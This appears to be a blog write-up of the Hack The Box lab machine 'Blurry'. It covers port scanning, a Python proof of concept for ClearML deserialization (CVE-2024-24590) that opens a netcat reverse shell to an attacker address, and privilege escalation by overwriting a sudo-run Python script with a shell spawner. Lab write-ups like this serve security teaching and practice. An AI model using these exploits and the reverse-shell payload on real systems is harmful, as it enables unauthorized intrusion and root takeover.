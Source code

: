 ```yaml
---
title: HTB Blurry Writeup
author: Elus1nist
layout: post
date: 16 June 2024
imagesrc: https://labs.hackthebox.com/storage/avatars/344998b24aad421410cabf912d3dc3af.png
---
```

Welcome! This is my writeup of the new Season 5 Medium machine from HTB, Blurry. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -p 22,80 -oN initial_scan 10.10.11.19
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.19
Host is up (0.16s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see an open HTTP port 80 and aother open SSH port 22. To access VHOST added the virtual host `app.blurry.htb` and `blurry.htb` to the `/etc/hosts` file

---
---
## Webpage Enumeration

Visiting the webpage we encounter:
<img src="{{- 'writeup_images/Blurry/WebPage_Landing.png' | relative_url}}" >

---
---
## ClearML RCE via Deserialization attack - CVE-2024-24590

Doing some research on the ClearML platform leads to a public CVE-2024-24590. Using the python module `clearml` this script can be created as a POC with the following steps:

1) Create a new task and mark it as review (this way the task is executed ask the service user)
2) Create Exploit object with Code Execution
3) Upload pickled artifact and execute task

```python
from clearml import Task
import pickle
import os

task = Task.init(project_name="Black Swan", task_name="Test 2", tags=["review"], task_type=Task.TaskTypes.data_processing)

class RunCmd:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.60 9001 >/tmp/f"
        return os.system, (cmd,)

command = RunCmd()

task.upload_artifact(name='revArtifact', artifact_object=command)

task.execute_remotely(queue_name='default')
```

Before running the above POC, a netcat listener was started `nc -lvnp 9001`. After execution a shell is obtained:
<img src="{{- 'writeup_images/Blurry/Reverse_Shell_Obtained.png' | relative_url}}" >

User Flag can be found - `cat ~/jippity/users.txt`
SSH Key found at - `~/.ssh/id_rsa`

---
---
## Privalege Escalation

As part of manual enumeration running `sudo -l` shows us local admin command:
```sh
(root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

When we examine the contents of `/usr/bin/evaluate_model` we can see the file `/models/evaluate_model.py` is called.
As we have read write privelages to the `/models` directory we can change the contents of the python file and achieve code execution:

```sh
### 1) Delete current file ###
rm -rf  /models/evaluate_model.py

### 2) create backdoor ###
echo -e 'import pty\npty.spawn("/bin/bash")' > /models/evaluate_model.py

### 3) Trigger backdoor and attain root ###
sudo /usr/bin/evaluate_model /models/*.pth
```

<img src="{{- 'writeup_images/Blurry/Root_Shell.png' | relative_url}}" >

We can now print the root flag - `cat /root/root.txt`




<img src="https://giffiles.alphacoders.com/206/206739.gif">
